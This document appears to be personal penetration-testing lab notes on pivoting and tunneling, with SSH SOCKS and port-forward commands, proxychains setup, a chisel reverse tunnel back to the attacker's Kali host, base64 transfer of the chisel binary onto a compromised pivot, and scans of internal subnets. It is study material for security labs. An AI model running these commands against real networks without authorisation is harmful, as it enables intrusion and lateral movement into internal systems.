


# Pivoting and Tunneling

You want to get access to an internal target. How can you access it -> **Pivoting** and **Tunneling**

## Pivoting

### Port-Forwarding
You are forwarding ports through a tunnel

```
Kali -> pivot2 -> target:22
```

You act like target:22 would be locally accessable for you

### Full Tunnel Routing
You send the complete networktraffic through pivot2.

You can use:
- nmap
- smbclient
- RDP
- anything over tcp

## The Begin

### Step 1 - Find the Begin
`ip a`

`ssh user@10.10.0.5`

### Step 2 - Pivoting
First we need to figure out whether we are on the right pivot or not and if there is an internal subnet/network.

`ip a`



Most interesting ip's. Maybe a target or another pivot?

**STOP HERE! PRIVESC FOR ROOT**

For the next step we need some tools for port forwarding and enumeration etc
`sudo apt install -y iputils-ping net-tools`

Then we want to ping the found new internal ip's
```
ping -c 1 10.10.10.1
ping -c 1 10.10.10.3
ping -c 1 10.10.10.254
```

or 

`sudo apt-get install arp-scan` and then
`sudo arp-scan --interface=eth1 10.10.10.0/24` (when root optaining was successful)

Now when we found the target ip we have 2 different approaches. Port forwarding (easy) or full pivoting (harder of course)

### Step 3 - Create a Tunnel
Here we have 3 different approaches depending on what we need

### Step 3a - Full Pivoting (SSH SOCKS Proxy)
```
ssh -D 1080 -N -f vagrant@<pivot2_IP>
```
- `-D 1080`:    creates a SOCKS Proxy (Port 1080)
- `-N`:         no shell
- `-R`:         reverse port forwarding
- `-f`:         background

After creating a SOCKS Proxy we need to configure our proxychains
Open the file:
```
sudo nano /etc/proxychains.conf
```
(in case its empty or cant be find use `proxychains -h` to see the correct filename)
Add your ip and port:
```
socks5 127.0.0.1 1080
```
Save it!

**TEST IF THE TUNNEL WORKS!**

```
proxychains -q nmap -Pn -sT 10.10.10.1
```
- `-q`: Silent mode (readability)
- `-Pn`: Host discovery deactivated (needed when over SOCKS5)
- `-sT`: TCP Connect Scan (only useful scan over SOCKS5)


### Step 3b - Port forwarding
For portforwarding we send a single port through a tunnel
```
ssh -L 1080:10.20.20.1:22 user@<TARGET_IP>
```

### Step 3c - Chisel
Chisel is used when:
- ssh not allowed to tunnel SOCKS5
- no ssh access
- only reverse shell
- firewall blocks network traffic
- oscp-lab wants it XD

How to get Chisel on Pivot?
1. Encode Chisel on Kali: `base64 /usr/bin/chisel > chisel.b64`
2. Create file on Pivot: `nano chisel.b64`
3. Just copy and paste
4. Decode Chisel Back Into a Binary: `base64 -d chisel.b64 > chisel` and make it executeable `chmod +x chisel`
5. TESTING! `./chisel`

Start on Kali:
```
chisel server -p 9001 --reverse
```

Start on Pivot:
```
./chisel client <KALI_IP>:9001 R:socks
# Creates automatically SOCKS5 on 127.0.0.1:1080
```

Afterwards `SOCKS5 Proxy on 127.0.0.1:1080` runs automatically



**TESTING**
```
proxychains -q nmap -Pn -sT 10.10.10.1
```
```
proxychains -q nmap -Pn -p22,80,139,445 10.10.10.1
```

### Step 4 - Find the target or next pivot

**TEST IF TUNNEL IS REALLY WORKING**
```
proxychains -q curl -s https://ifconfig.me
```

Now we need to do a little Networkdiscovery
```
proxychains -q nmap -sn 10.10.10.0/24
```
OR when we have root access
```
sudo arp-scan --interface=eth1 10.10.10.0/24
```

If you found a target then check the ports out:
```
proxychains nmap -Pn -p22,80,139,445 <TARGET_IP>
```

**IF NO VALID PORT OR IP THEN PRIVESC ON PIVOT AND DO AN ARP SCAN**
First we need to install arp-scan
```
sudo apt install arp-scan -y
```
Then default enumeration:
```
ip a
ip r
netstat
ss
```
And then we need to use it via root ssh
```
sudo arp-scan --interface=ethX <TARGET_IP>
```

### Afterwards
Get rid of the pivoting again in:
```
sudo nano /etc/proxychains.conf
```